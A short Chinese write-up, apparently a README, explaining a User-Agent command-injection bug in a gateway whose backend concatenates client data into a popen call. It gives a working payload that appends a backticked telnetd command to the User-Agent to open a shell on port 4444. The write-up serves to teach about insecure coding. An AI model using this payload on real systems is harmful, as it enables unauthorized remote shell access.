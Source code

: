 ## shitcode NO.1 -- User-Agent RCE

![image-20210811163041670](README.assets/image-20210811163041670.png)

这段 shitcode 是我从某个网关上弄下来的，web 服务在收到请求时把请求的 UA 设置成环境变量 HTTP_USER_AGENT

然后后端获取这个环境变量的值，然后把 客户端的 ip，登录的用户名，UA 拼接，通过系统命令 md5sum 去计算 md5 值

这里直接使用 sprintf 去拼接，拼接后的字符串没有任何检查直接丢给 popen

按照正常编程的思路来说，没有什么问题，但其实，可以通过修改 UA 来达到 RCE，因为 **UA 是用户可控的**

我正常的 UA 是

```
Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36
```

我只需要使用一个浏览器插件把我的 UA 改成

```
Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.131 Safari/537.36 `telnetd -l /bin/sh -p 4444`
```

然后再去访问能触发这个逻辑的 api，直接就能在目标机器的 4444 端口开一个 shell